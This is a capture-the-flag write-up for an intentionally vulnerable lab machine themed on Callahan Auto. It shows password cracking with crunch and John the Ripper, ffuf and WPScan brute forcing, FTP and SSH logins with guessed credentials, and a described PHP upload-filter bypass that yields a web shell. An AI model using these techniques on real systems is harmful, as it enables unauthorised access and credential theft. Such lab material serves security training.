
Flag data: B34rcl4ws"

The HTML of the root URL gave us some hints:<br><br>

```html
<html>
<title>Welcome to Callahan Auto</title>
<body>
<H1><center>Welcome to Callahan Auto!</center></H1>
<font color="FF3339"><H2>SYSTEM ERROR!</H2></font>
If your'e reading this, the Callahan Auto customer ordering system is down.  Please restore the backup copy immediately.
<p>
See Nick in IT for assistance.
</html>
<!--Comment from Nick: backup copy is in Big Tom's home folder-->
<!--Comment from Richard: can you give me access too? Big Tom's the only one w/password-->
<!--Comment from Nick: Yeah yeah, my processor can only handle one command at a time-->
<!--Comment from Richard: please, I'll ask nicely-->
<!--Comment from Nick: I will set you up with admin access *if* you tell Tom to stop storing important information in the company blog-->
<!--Comment from Richard: Deal.  Where's the blog again?-->
<!--Comment from Nick: Seriously? You losers are hopeless. We hid it in a folder named after the place you noticed after you and Tom Jr. had your big fight. You know, where you cracked him over the head with a board. It's here if you don't remember: https://www.youtube.com/watch?v=VUxOd4CszJ8--> 
<!--Comment from Richard: Ah! How could I forget?  Thanks-->
```

When we visit /prehistoricforest, we find a blog post containing the second flag:

<br><br>

**"thisisthesecondflagyayyou.txt"**

```
"You've got 2 of five flags - keep it up!

Flag data: Z4l1nsky"
```

There is also a blog post mentioning a password-protected post:

<br><br>

The exif data shows a hash, which decoded to "spanky";

```
exiftool shockedrichard.jpg 
ExifTool Version Number         : 12.16
File Name                       : shockedrichard.jpg
Directory                       : .
File Size                       : 163 KiB
File Modification Date/Time     : 2022:03:30 02:27:12-05:00
File Access Date/Time           : 2022:03:30 02:27:12-05:00
File Inode Change Date/Time     : 2022:03:30 02:32:50-05:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Copyright                       : Copyright  1995 Paramount Pictures Corporation. Credit:  1995 Paramount Pictures / Courtesy: Pyxurz.
Exif Version                    : 0220
#### User Comment                    : ce154b5a8e59c89732bc25d6a2e6b90b ####
```

<br><br>

The protected blog post gives us some insight about a "flaky" FTP service that only runs at certain times. Scanning the machine at the right time revealed port 65534.

<br><br>

In the post, he says the password is easy to guess. Sure enough, the password was the same as the user account: nickburns. 

```
ftp tommy.vh 65534
Connected to tommy.vh.
220 Callahan_FTP_Server 1.3.5
Name (tommy.vh:rockzo): nickburns
331 Password required for nickburns
Password:
230 User nickburns logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 nickburns nickburns      977 Jul 15  2016 readme.txt
226 Transfer complete
ftp> get readme
local: readme remote: readme
200 PORT command successful
550 readme: No such file or directory
ftp> get readme.txt
local: readme.txt remote: readme.txt
200 PORT command successful
150 Opening BINARY mode data connection for readme.txt (977 bytes)
226 Transfer complete
977 bytes received in 0.00 secs (2.0388 MB/s)
```

**Contents of the readme file:**

"To my replacement:

If you're reading this, you have the unfortunate job of taking over IT responsibilities
from me here at Callahan Auto.  HAHAHAHAHAAH! SUCKER!  This is the worst job ever!  You'll be
surrounded by stupid monkeys all day who can barely hit Ctrl+P and wouldn't know a fax machine
from a flame thrower!

Anyway I'm not completely without mercy.  There's a subfolder called "NickIzL33t" on this server
somewhere. I used it as my personal dropbox on the company's dime for years.  Heh. LOL.
I cleaned it out (no naughty pix for you!) but if you need a place to dump stuff that you want
to look at on your phone later, consider that folder my gift to you.

Oh by the way, Big Tom's a moron and always forgets his passwords and so I made an encrypted
.zip of his passwords and put them in the "NickIzL33t" folder as well.  But guess what?
He always forgets THAT password as well.  Luckily I'm a nice guy and left him a hint sheet.

Good luck, schmuck!

LOL.

-Nick"<br><BR>

**"/NicklzL33t"**

At first, browsing to /NicklzL33t didn't work, but we were succesful using port 8080. 

<br><br>

This was rather cryptic at first, but eventually we figure out it's possibly talking about an iPhone. Sure enough, after setting the user-agent to "iPhone", we make it to the "secret" page:

<br><br>

Using ffuf, we set the user-agent and "rockyou.txt" wordlist, then let it run wild:

```
ffuf -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B176 Safari/7534.48.3" -w /usr/share/wordlists/rockyou.txt -u http://tommy.vh:8008/NickIzL33t/FUZZ.html


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://tommy.vh:8008/NickIzL33t/FUZZ.html
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B176 Safari/7534.48.3
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 403, Size: 94, Words: 14, Lines: 1]
#1bitch                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1pimp                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1hottie                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1princess              [Status: 200, Size: 270, Words: 29, Lines: 10]
#1stunna                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1love                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1angel                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1cutie                 [Status: 200, Size: 270, Words: 29, Lines: 10]
??????                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1mommy                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1girl                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1babygirl              [Status: 200, Size: 270, Words: 29, Lines: 10]
#1lover                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1sexy                  [Status: 200, Size: 270, Words: 29, Lines: 10]
//////                  [Status: 403, Size: 94, Words: 14, Lines: 1]
#1baby                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1chick                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1diva                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1dancer                [Status: 200, Size: 270, Words: 29, Lines: 10]
######                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1daddy                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1star                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1player                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1baller                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1wifey                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1brat                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1BITCH                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1gurl                  [Status: 200, Size: 270, Words: 29, Lines: 10]
#1shorty                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1monkey                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1nigga                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1babygurl              [Status: 200, Size: 270, Words: 29, Lines: 10]
fallon1                 [Status: 200, Size: 459, Words: 56, Lines: 13]
#1playa                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1mother                [Status: 200, Size: 270, Words: 29, Lines: 10]
#1freak                 [Status: 200, Size: 270, Words: 29, Lines: 10]
#1balla                 [Status: 200, Size: 270, Words: 29, Lines: 10]
```
<br>

"fallon1" stands out, so we try browsing to it:

```html
Nice work. Here are the goodies in Nick's personal super secret dropbox:
 A hint- you'll need it
 The third flag- you're not hopeless after all
 Big Tom's encrypted pw backups- because that big tub of dumb can never remember them
```
<br>

**"/hint"**

```
Big Tom,

Your password vault is protected with (yep, you guessed it) a PASSWORD!  
And because you were choosing stupidiculous passwords like "password123" and "brakepad" I
enforced new password requirements on you...13 characters baby! MUAHAHAHAHAH!!!

Your password is your wife's nickname "bev" (note it's all lowercase) plus the following:

* One uppercase character
* Two numbers
* Two lowercase characters
* One symbol
* The year Tommy Boy came out in theaters

Yeah, fat man, that's a lot of keys to push but make sure you type them altogether in one 
big chunk ok?  Heh, "big chunk."  A big chunk typing big chunks.  That's funny.

LOL

-Nick
```
<br>

**"/flagres.txt"**

```
THREE OF 5 FLAGS - you're awesome sauce.

Flag data: TinyHead
```
<br>

## Zip and user cracking

### Commands used: crunch, JtR, WPScan
<br>

Based on the hint.txt file, this is the format of the password:

"bev" + "1 upper char" + "2 numbers" + "2 lower char" + "1 symbol" + "1995"

```html
# crunch pattern (-t) flags
 , = upper char
 % = number
 @ = lower char
 ^ = symbol
```
<br>

```
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
```

For JtR, step one is to create a hash of the passworded file:

```
zip2john Downloads/t0msp4ssw0rdz.zip > ziphash.txt
```

Then we run *john* against the hash:

```
john --wordlist=wordlist.txt ziphash.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bevH00tr$1995    (t0msp4ssw0rdz.zip/passwords.txt)
1g 0:00:00:01 DONE (2022-04-01 20:19) 0.8547g/s 13366Kp/s 13366Kc/s 13366KC/s bevH00re{1995..bevH01as'1995
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Finally, we unzip the file using the discovered password:

```
unzip t0msp4ssw0rdz.zip 
Archive:  t0msp4ssw0rdz.zip
[t0msp4ssw0rdz.zip] passwords.txt password: 
  inflating: passwords.txt
```
<br>

**"passwords.txt"**

```
cat passwords.txt 
Sandusky Banking Site
------------------------
Username: BigTommyC
Password: money

TheKnot.com (wedding site)
---------------------------
Username: TomC
Password: wedding

Callahan Auto Server
----------------------------
Username: bigtommysenior
Password: fatguyinalittlecoat

Note: after the "fatguyinalittlecoat" part there are some numbers, but I don't remember what they are.
However, I wrote myself a draft on the company blog with that information.

Callahan Company Blog
----------------------------
Username: bigtom(I think?)
Password: ??? 
Note: Whenever I ask Nick what the password is, he starts singing that famous Queen song.
```

At first, I hit a bunch of dead ends trying to figure out what Queen song was related to the movie. I tried running **cewl** on a few websites to generate wordlists, but nothing was working. I finally gave up and moved on to **WPScan**.<br><br>

```
wpscan --url http://tommy.vh/prehistoricforest --enumerate u

[i] User(s) Identified:

[+] michelle
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] richard
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tommy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```

```
wpscan --url http://tommy.vh/prehistoricforest --usernames wpusers.txt --passwords wordlist2.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ 
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tommy.vh/prehistoricforest/ [172.16.250.90]
[+] Started: Fri Apr  1 21:35:25 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://tommy.vh/prehistoricforest/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://tommy.vh/prehistoricforest/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://tommy.vh/prehistoricforest/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.5.26 identified (Latest, released on 2022-03-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://tommy.vh/prehistoricforest/, Match: '-release.min.js?ver=4.5.26'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://tommy.vh/prehistoricforest/, Match: 'WordPress 4.5.26'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - tom / tomtom1                                                       
^Cying michelle / Memory Time: 00:00:00 <   > (90 / 18334)  0.49%  ETA: 00:02:08
[!] Valid Combinations Found:
 | Username: tom, Password: tomtom1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Apr  1 21:35:28 2022
[+] Requests Done: 239
[+] Cached Requests: 31
[+] Data Sent: 124.326 KB
[+] Data Received: 404.947 KB
[+] Memory used: 206.527 MB
[+] Elapsed time: 00:00:03

Scan Aborted: Canceled by User
```

Logging in to the WordPress site using "tom / tomtom1", we see the draft message previously mentioned:

<br><br>

Now we have the credentials to login via SSH - bigtommysenior:fatguyinalittlecoat1938!!

## Shell access
<br>

Right away, we get the fourth flag:

```
bigtommysenior@CallahanAutoSrv01:~$ ls
callahanbak.bak  el-flag-numero-quatro.txt  LOOT.ZIP
```

```
YAY!  Flag 4 out of 5!!!! And you should now be able to restore the Callhan Web server to normal
working status.

Flag data: EditButton

But...but...where's flag 5?  

I'll make it easy on you.  It's in the root of this server at /5.txt
```
<br>

First things first, we restore the Callahan Auto website:

```html
bigtommysenior@CallahanAutoSrv01:~$ cp callahanbak.bak /var/www/html/index.html

bigtommysenior@CallahanAutoSrv01:~$ cat /var/www/html/index.html

<html>
<title>Welcome to Callahan Auto</title>
<body>
<H1><center>Welcome to Callahan Auto!</center></H1>
<font color="0000ff"><H2><center>SYSTEM STATUS: ONLINE</center></H2></font>
<H3>We're happy to be serving all your brakepad needs.</H3>
<p>
<center></center>
<p>
<p>
</html>
<!---->
```

<br><br>

We still need to get that fifth flag though. We look for writable directories to get a PHP shell going. 

```
bigtommysenior@CallahanAutoSrv01:~$ find / -perm -222 -type d 2>/dev/null

/var/lib/php/sessions
/var/crash
/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS/uploads
/var/tmp
/dev/mqueue
/dev/shm
/run/lock
/tmp
/tmp/.XIM-unix
/tmp/.Test-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.X11-unix
```
<br>

**"/P4TCH_4D4MS"**
<br><br>

```html
bigtommysenior@CallahanAutoSrv01:/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS/uploads$ ls
index.html

bigtommysenior@CallahanAutoSrv01:/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS/uploads$ tail index.html 

<!--L33t h4x04$ keep pwning my uploads area somehow. I'm only allowing image types to be uploaded, but they're running shells!">
```
<br>

Of course, uploading a *.php file didn't work:

<br><br>

But we can bypass the check by adding some junk data in between the extensions:

<br><br>

After renaming the file, we have our PHP shell:

<br><br>

Now we can finally get the fifth flag:

<br><br>

<br><br>

The final flag tells us how to open "loot.zip". Using data from all other flags:

1: B34rcl4ws
2: Z4l1nsky
3: TinyHead
4: EditButton
5: Buttcrack

B34rcl4wsZ4l1nskyTinyHeadEditButtonButtcrack<br><br>

```
cat THE-END.txt

YOU CAME.
YOU SAW.
YOU PWNED.

Thanks to you, Tommy and the crew at Callahan Auto will make 5.3 cajillion dollars this year.

GREAT WORK!

I'd love to know that you finished this VM, and/or get your suggestions on how to make the next 
one better.

Please shoot me a note at 7ms @ 7ms.us with subject line "Here comes the meat wagon!"

Or, get in touch with me other ways:

* Twitter: @7MinSec
* IRC (Freenode): #vulnhub (username is braimee)

Lastly, please don't forget to check out www.7ms.us and subscribe to the podcast at
bit.ly/7minsec

</shamelessplugs>

Thanks and have a blessed week!

-Brian Johnson
7 Minute Security

```